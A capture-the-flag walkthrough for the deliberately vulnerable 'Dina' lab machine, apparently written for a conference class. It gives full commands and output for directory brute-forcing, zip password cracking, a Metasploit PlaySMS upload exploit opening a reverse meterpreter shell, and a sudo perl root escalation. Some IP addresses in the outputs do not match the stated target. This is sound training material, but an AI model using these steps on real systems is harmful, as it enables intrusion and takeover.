





# Metasploit CTF [Dina]

Welcome to our walkthrough of Dina for the Zero Trust World 2024 Conference.
This write up will be most helpful while following along with the class.

If you need to you can jump ahead to a given section to keep up with the class.
If not just follow along with this and you should get the flag.


# Given information and Objective

We have a some given information that will help us in breaking into our vulnerable
machine. For the classroom setting, we have an IP address and nothing else. If
you are trying this at home and need to find Dina's IP, you can use `nmap -sn`
to ping scan a network that the VM is on, such as `192.168.56.0/24`.

> **Dina IP:** 192.168.56.3

> **Objective:** Collect the flag stored in `/root/flag.txt`

Our objective is to collect the flag stored in `/root/flag.txt`. In order to get
to this, we will need access to the root user on the machine. In order to get
that, we will need some access to the machine remotely. So in order to start, we
will need to begin from the beginning with...

# Enumeration

We are going to need to gather intel on our target first. If you are
following along with the class, then the IP address that we will focus on will
be `192.168.56.3`.

Since our first objective is to find a remote connection to the machine, we are
going to know all of the ways that we can talk to the machine. We do that by
scanning for ports on the given machine such as nmap

## Nmap Port Scan

Nmap is a useful and reliable tool used by hackers of all calibers. We are going
to be using nmap to scan for ports, so configuring the command below will get
our desired results.

To give a better understanding of the arguments, here's a description of
arguments used and why we would use them.

- `-sV` - Gets a service version on each port. Even if we know all of the ports
  that are available on the machine, we wouldn't know what was running on that
  given port, so this flag will attempt to identify the service running and
  what version of said service is running.
- `-sC` - Runs default scanning scripts on ports found. More verbose scripts can
  be found in `/usr/share/nmap/scripts/`.
- `-p-` - Tells nmap to check every port from 1-65535. This will check every port
  that can possibly be opened.
- `-oN` - (Optional) Sends the results of the nmap scan into a file as well as
  printing to the screen.

```shell
nmap -sV -sC -p- -oN scan.txt <MACHINE-IP>
```

```shell
$ nmap -sV -sC -p- -oN scan.txt 192.168.56.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 10:00 EST
Nmap scan report for 192.168.56.112
Host is up (0.052s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-robots.txt: 5 disallowed entries
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-title: Dina

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.78 seconds
```

Based on the results from above, our target only has one port open on port `80`.
Thanks to some of the scripts that were ran, we also know of some directories
that are not allowed to be shown by search engines thanks to `robots.txt`.

|  PORT  | SERVICE | VERSION       |
| :----: | :-----: | :------------ |
| 80/tcp |  http   | Apache/2.2.22 |

Looking at the web page there isn't much to look at, so it looks like the
directories are going to be our best bet in finding something useful.



This gave us a good starting point but we can probably do better. The directories
seem like a good starting point, but the robots.txt is controlled by the website
maintainer and wont always show you everything. That is what our next
reconnaissance scan is going to focus on.

## GoBuster Directory Scan

Without a bug that would allow us to see all of the contents of a directory, the
next best way that we can find more directories is by guessing them. This is where
our next tool *GoBuster*. GoBuster finds directories in a website by guessing
all directory names in a list to see which ones exist on the target.

We are going to be using GoBuster and a big dictionary to find any more
directories that we might be missing. To give a better understanding of the
arguments, here's a description of arguments used and why we would use them.

- `dir` - Tells GoBuster that its bruteforcing directories.
- `-u` - Sets the url to bruteforce against.
- `-w` - Specify the wordlist to bruteforce with.

```shell
gobuster dir -u http://<MACHINE-IP-HERE> -w /usr/share/wordlists/dirb/big.txt
```

```shell
$ gobuster dir -u http://192.168.56.3 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.112
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/index                (Status: 200) [Size: 3618]
/nothing              (Status: 301) [Size: 318] [--> http://192.168.56.112/nothing/]
/robots               (Status: 200) [Size: 102]
/robots.txt           (Status: 200) [Size: 102]
/secure               (Status: 301) [Size: 317] [--> http://192.168.56.112/secure/]
/server-status        (Status: 403) [Size: 295]
/tmp                  (Status: 301) [Size: 314] [--> http://192.168.56.112/tmp/]
/uploads              (Status: 301) [Size: 318] [--> http://192.168.56.112/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

And with this, GoBuster has given us more directories to search through. Now
that we have used all of our scanning tools, its time to look at our results
and do some digging.

## Directory Search

Thanks to the results of our nmap and GoBuster scans, we have a few directories
to check. Some directories look more interesting than others, but its always
important to check all of them in case you miss something.

- `/nothing`
- `/secure`
- `/tmp`
- `/uploads`

Sometimes, you wont get the result that you wanted but don't let that be a
deterrent. Persistence is what makes the difference.


### Nothing

But sometimes we will get something interesting. If we look in the `/nothing`
directory it will say nothing found, except that it doesn't look like the
normal error that would occur on finding nothing.

This is a regular page. We might find more if we look in the source code using
`F12` or `CTRL+U` to view the source code, you will get the same response as
shown below.

```html
<html>
<head><title>404 NOT FOUND</title></head>
<body>
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
<h1>NOT FOUND</html>
<h3>go back</h3>
</body>
</html>
```

The source code says that the developer likes using these passwords. Just in
case, its a good idea to keep a file containing these password in case you
need them in the future.

```
freedom
password
helloworld!
diana
iloveroot
```

### Secure

Looking into the `/secure` we can see that we have a zip file called `backup.zip`.
After downloading it and attempting to open the zip file, we can see that
`backup-creds.mp3` is encrypted with a password. This can be dealt with using
john the ripper.



#### Cracking with John the Ripper

We have a wordlist full of passwords to try on the zip file, but we don't have
a hash to test against. We can get this using `zip2john`. Zip2john will give
you a string as an output. We just need to pipe this into a file for the next
thing on our list.

```shell
$ zip2john backup.zip
Created directory: /home/kali/.john
backup.zip/backup-cred.mp3:$zip2$*0*1*0*f7fbed2094d28bc9*841a*82*67ec429908caf33cfc34e5c3f30a13a23747c4dfe17914274b6e404d2b59d8dcec9f8dc549ce43ac4b5d2a2ff104f98aba748d566a8480df978f0a8f4cf4f485b2414d1328304207d7044d604e80b009828b56dac4d8a3f876464c9d9de757e20f2c612dff6839c4f9ec7bdd10c168be5624b860f860dda8f749597302f9fc10a14f*e6da1038b02c0bc7bd4c*$/zip2$:backup-cred.mp3:backup.zip:backup.zip
$ zip2john backup.zip > backup.hash
```

Now that we have our hash and our wordlist, its time to bruteforce the password.

```shell
john --wordlist=<PASSWORD-FILE> <HASH_FILE>
```

```shell
$ john --wordlist=passwords.list backup.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 130 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates left, minimum 96 needed for performance.
freedom          (backup.zip/backup-cred.mp3)
1g 0:00:00:00 DONE (2024-02-14 13:01) 25.00g/s 125.0p/s 125.0c/s 125.0C/s freedom..iloveroot
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And now we can see that the password to our zip file is **freedom**. We can go
back and decrypt our new creds mp3.



You may notice upon opening it that the media file breaks. Linux does not
differentiate file types based on the extension, so using the ending extension
to a file can be misleading. We can see what file type it is using the `file`
command.

```shell
$ file backup-cred.mp3
backup-cred.mp3: ASCII text
```

And according to linux this is a text file. We can use the `cat` command to view
the contents of our file. Upon doing so, we get these results.

```
$ cat backup-cred.mp3

I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******


url : /SecreTSMSgatwayLogin
```

And this file gives us a lot of great information. It gives use the username
`touhid` and the directory path way of `/SecreTSMSgatwayLogin`. It is such a
good target that its where we will want to go to next.

### PlaySMS Gateway

Looking at the `/SecreTSMSgatwayLogin`, we can see that we have a login screen.



We are going to want to find these credentials. We already have a username and
a list of passwords. Unfortunately, we're going to have to test these manually.

| Username | Password |
| -------- | -------- |
| touhid   | diana    |

The login ends up being touhid and diana. Looking in the website, there isn't
much that we can work with. If this application wont give us more on its own,
maybe we can exploit it.

# Exploitation

Now that we have finished the reconnaissance phase with a lot of useful
information, lets try to use everything that we have so far and leverage
ourselves a new point of access. In this section, we're going to primarily use
metasploit as it does a lot of the work for you with little set up time.

If you don't already, open up a new terminal and run `msfconsole` to get a new
metasploit terminal.

```shell
msfconsole
```

## PlaySMS Exploit

While in metasploit, we will want to search for PlaySMS in the framework.

```shell
msf > search playsms

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/multi/http/playsms_uploadcsv_exec      2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution
   1  exploit/multi/http/playsms_template_injection  2020-02-05       excellent  Yes    PlaySMS index.php Unauthenticated Template Injection Code Execution
   2  exploit/multi/http/playsms_filename_exec       2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/playsms_filename_exec
```

In a normal pentest, we would want to check each module to find an attack that
sticks, so lets start with the first module. We can select it with `use 0` to
refer to the index number in the search or use the absolute path.

```shell
msf > use exploit/multi/http/playsms_uploadcsv_exec
```

Next we are going to change our settings to point this module at our target so
that we can see if it is exploitable. Sometimes you will need to set a variable
multiple times in multiple modules. We can use `setg` to get the variable
globally to make things easier.

```shell
msf > options

Module options (exploit/multi/http/playsms_uploadcsv_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/bas
                                         ics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base playsms directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS 1.4


View the full module info with the info, or info -d command.

msf > set targeturi /SecreTSMSgatwayLogin
targeturi => /SecreTSMSgatwayLogin
msf > setg rhosts 192.168.56.3
rhosts => 192.168.56.3
msf > set username touhid
username => touhid
msf > set password diana
password => diana
msf > setg lhost eth1
lhost => 192.168.56.5
```

Now that we have configured all of our options, the next step is to check if the
exploit will work. We simply run `check` and it will do all of the work for us.

```shell
msf > check
[*] 192.168.56.3:80 - The target appears to be vulnerable.
```

According to the module, this application is vulnerable. Now we can run our
exploit.

```shell
msf > exploit

[*] Started reverse TCP handler on 192.168.56.113:4444
[+] Authentication successful: touhid:diana
[*] Sending stage (39927 bytes) to 192.168.56.112
[*] Meterpreter session 1 opened (192.168.56.113:4444 -> 192.168.56.112:38565) at 2024-02-14 14:36:46 -0500
```

And now you should be given a meterpreter session, which is just a more advanced
remote access connection. To get terminal access, we only need to type in
`shell`. To make it cleaner, we run a python command to spawn us a really nice
shell.

```shell
meterpreter > shell
> python -c 'import pty;pty.spawn("/bin/bash")'
$
```

> This will give you a nice shell but no tab completions, so be sure to spell correctly.

Looking at the shell given, we are running at *www-data*. We have completed step
1 of getting access to the machine. The next step is getting access to root from
here.

# Privilege Escalation

Now that we have our access point, we need to know all of the ways that we are
allowed to use root. We can check all the executables that we are allowed to run
as root with `sudo`.

```shell
sudo -l
```

Using `sudo -l`, we can list all of the binaries that we are allowed to run as
root.

```shell
$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

To which the machine tells us that we can run perl as root, and we don't even
need to give a password to do so. This is going to be the best target for us to
go for.

In order to take advantage of this, we are going to need to figure out how to
make a shell with perl. Luckily we have resources that can help us, such as
[GTFOBins](https://gtfobins.github.io/).



Searching up perl on the website, we can see that we can use perl exec to create
a shell on the spot. If we just run the command on our access point, it should
upgrade our user to root.

```shell
sudo perl -e 'exec "/bin/sh";'
```

After that, if we run whoami we can see that we are now the root user

```shell
# whoami
root
```

# Collect the flag and win

Now that we have our root user, we now need to cat the file in `/root/flag.txt`.

```shell
# cat /root/flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))


root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....


CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```

And with that, we have pwned the machine.

# Resources

- GTFOBins: https://gtfobins.github.io/